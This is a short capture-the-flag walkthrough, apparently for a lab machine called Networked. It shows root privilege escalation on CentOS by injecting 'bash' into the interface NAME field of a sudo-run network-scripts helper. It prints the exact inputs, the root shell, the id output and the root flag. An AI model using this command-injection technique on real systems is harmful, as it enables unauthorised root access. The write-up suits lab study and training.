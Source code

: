 ##### RedhatCentOS root through network-scripts

This script simply creates a network script for an interface called `guly` then activates that interface. It asks the user for these options: `NAME`, `PROXY_METHOD`, `BROWSER_ONLY`, `BOOTPROTO`.

We’re only interested in the `NAME` option because according to [this page](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f) we can inject commands in the interface name. 

We inject bash command to get root shell:

```bash
sudo /usr/local/sbin/changename.sh
test bash
test
test
test
```

And check privilege and root flag:

```bash
whoami
id
cat /root/root.txt
```

![[Networked-17.png]]

```
[guly@networked tmp]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test bash
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
[root@networked network-scripts]# whoami
root
[root@networked network-scripts]# id
uid=0(root) gid=0(root) groups=0(root)
[root@networked network-scripts]# cat /root/root.txt
d5877a30d35b917d51d3218cd6ab92eb

```




